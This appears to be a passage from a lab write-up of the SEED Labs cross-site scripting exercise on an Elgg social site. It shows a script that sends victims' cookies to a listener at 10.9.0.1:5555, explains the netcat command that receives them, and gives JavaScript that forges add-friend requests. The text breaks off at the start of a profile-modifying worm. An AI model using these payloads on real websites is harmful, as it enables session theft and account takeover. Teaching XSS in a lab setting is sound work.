 ```
<script>document.write(’<img src=http://10.9.0.1:5555?c=’ + escape(document.cookie) + ’ >’); </script>
```
- Another command used by attackers is `netcat` (or `nc`) that, if run with the option `-l`, becomes a TCP server listening for incoming connections on the given port.
- This server program basically prints out whatever is sent by the client and sends to the client whatever is typed by the user running the server. in order to listen on port 5555 type the following command:
  `$ nc -lknv 5555`
- The -l option is used to specify that nc should listen for an incoming connection rather than initiate a connection to a remote host.
- The -nv option is used to have nc give more verbose output.
- The -k option means when a connection is completed, listen for another one.

**Task 4: Becoming the Victim’s Friend** 
- In this task we will write a malicious JavaScript program that directly forges HTTP requests from the browser of the victim, without the interference of the attacker.
- **Objective:** The objective of this task is to add Samy as a friend to the victim. We will go ahead and create a user named Samy on the Elgg server, its username is samy.
- Write the Javascript program to send a add friend request in Elgg.
- Firefox's HTTP inspection tool gives the contents of any HTTP request message sent from the browser.
- Javascript code for add friend request:

  ```
  <script type="text/javascript">
  window.onload = function ()
  {var Ajax=null;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the HTTP request to add Samy as a friend.
  var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET", sendurl, true);
  Ajax.send();
  }
  </script>
  ```
- The above code should be placed in the `About Me` field of Samy’s profile page in Elgg Website.
- This field provides two editing modes: Editor mode (default) and Text mode. The Editor mode adds extra HTML code to the text typed into the field, while the Text mode does not.
- Since we do not want any extra code added to our attacking code, the Text mode should be enabled before entering the above JavaScript code.
- This can be done by clicking on `Edit HTML`, which can be found at the top right of the `About Me` text field.
  
**Task 5: Modifying the Victim’s Profile** 
- **Objective:** The objective of this task is to modify the victim’s profile when the victim visits Samy’s page.
- Write an XSS worm to complete the task. This worm does not self-propagate; in task 6, we should make it self-propagating.
- Write a malicious JavaScript program that forges HTTP requests directly from the victim’s browser, without the intervention of the attacker.
- Using firefox's Inspection Tool, findout how HTTP Post request is constructed to modify a user's profile, specifically in the `About Me` field.
- Javascript program that forges HTTP requests directly from the Victim's browser:
  ```
  <script type="text/javascript">window.onload = function()
  {
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
  //and Security Token __elgg_token
  
  ```
